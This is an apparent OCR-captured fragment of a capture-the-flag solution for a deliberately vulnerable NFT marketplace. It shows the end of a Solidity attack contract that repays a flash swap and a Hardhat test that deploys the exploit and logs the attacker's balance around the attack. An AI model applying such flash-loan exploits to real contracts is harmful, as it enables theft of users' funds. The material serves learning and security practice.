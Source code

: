 ```apache
        //repay
        IERC20(tokenBorrow).transfer(pair, amountToRepay);
    }

    receive() external payable {}

    function onERC721Received(address, address, uint256 _tokenId, bytes memory) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }
}
```

```apache
  it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const Crack = await ethers.getContractFactory('CrackFreeRider', attacker);
    this.crack = await Crack.deploy(
      this.uniswapFactory.address,
      this.weth.address,
      this.token.address,
      this.marketplace.address,
      this.buyerContract.address,
      {
        value: ethers.utils.parseEther('0.3'),
      }
    );
    console.log('balance of attacker BEFORE the attack is:');
    console.log(ethers.utils.formatUnits(await ethers.provider.getBalance(attacker.address)));

    await this.crack.attack();
    console.log('balance of attacker AFTER the attack is:');
    console.log(ethers.utils.formatUnits(await ethers.provider.getBalance(attacker.address)));
  });
```

!
